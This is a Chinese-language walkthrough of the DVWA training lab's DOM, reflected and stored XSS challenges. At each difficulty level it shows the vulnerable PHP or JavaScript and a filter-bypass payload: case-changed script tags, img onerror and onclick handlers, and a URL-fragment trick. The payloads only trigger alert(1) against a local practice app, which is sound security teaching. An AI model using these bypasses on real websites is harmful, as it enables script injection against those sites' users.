 # §10 DOM型XSS

## §10.1 Low

分析前端JavaScript：

```javascript
if (document.location.href.indexOf("default=") >= 0) {
	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
	document.write("<option value='' disabled='disabled'>----</option>");
}
    
document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

容易发现，菜单中的第一项正是上次提交的值，而且这个值只由`url`中的`default`参数决定。马上尝试绕过`><`。

```
访问URL:
	http://localhost/DVWA/vulnerabilities/xss_d/?default=
		><script>alert(1)</script><option
```

## §10.2 Medium

后端PHP多了过滤逻辑，如果检测到`$_GET['default']`包含`<script`时（不区分大小写），就将其强行设为`English`：

```php
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
```

我们可以通过JavaScript事件绕过：

```
访问URL:
	?default=</option></select><img src='x' onerror='alert(1)'><option>
```

## §10.3 High

后端PHP现在开了白名单，只允许`$_GET['default']`为预先指定的值：

```php
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
```

然而前端渲染时用的不是真正意义上的GET传的那个`default`，而是URL通过`substring(indexOf('default'))`指定的字符串，这意味着URL中`?default=`之后的所有字符都将被视为`default`的值，这显然不符合常理，因为URL之后还可以有定位符`#`。我们把恶意脚本放在定位符中，此时后端并不能获取到`#`之后的内容：

```
访问URL:
	?default=English#<script>alert(1)</script>
```

# §11 反射型XSS

## §11.1 Low

直接注：

```
<script>alert(1);</script>
```

## §11.2 Medium

后端PHP加了个检测`<script>`的过滤逻辑：

```php
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );
    echo "<pre>Hello ${name}</pre>";
}
```

> 注意：HTML的标签名不区分大小写，这意味着`<script>`和`<ScRiPt>`是完全等价的，首标签和闭标签完全可以混用。

既然HTML标签名对大小写不敏感，我们就可以使用全大写的标签名绕过WAF：

```
<SCRIPT>alert(1);</SCRIPT>
```

## §11.3 High

```php
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
    echo "<pre>Hello ${name}</pre>";
}
```

现在`preg_replace()`不允许出现`<script`，且忽略大小写。这就堵死了注入`<script>`标签这条路。然而HTML中能执行JavaScript的不止`<script>`，还有各标签的JavaScript事件。

```
</pre><img src="#" onerror="alert(1)"><pre>
```

# §12 存储型XSS

## §12.1 Low

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );
```

分析源码可知这个POST请求中的`Name`和`Message`均为注入点。其中前端限制了`Name`字段的`<input maxLength="10">`，开审查元素删了就行。

```
?mtxMessage=<script>alert(1);</script>
	&txtName=<script>alert(1);</script>
```

## §12.2 Medium

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );
$message = htmlspecialchars( $message );
$name = str_replace( '<script>', '', $name );
```

`$message`被`htmlspecialchars()`处理后，所有的特殊字符都变成了实体的形式，因此不再是注入点，问题的重点转移到了怎么绕过`$name`的这个`str_replace()`。

既然HTML标签名对大小写不敏感，我们就可以使用全大写的标签名绕过WAF：

```
?mtxMessage=HelloWorld
	&txtName=<SCRIPT>alert(1);</SCRIPT>
```

## §12.3 Hign

```php
$name = trim( $_POST[ 'txtName' ] );
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

与[§11.3](#§11.3)类似，可以使用JavaScript事件绕过：

```
?txtName=<button onclick="alert(1)"/>
?txtName=<img src=# onerror=alert("1")>
```

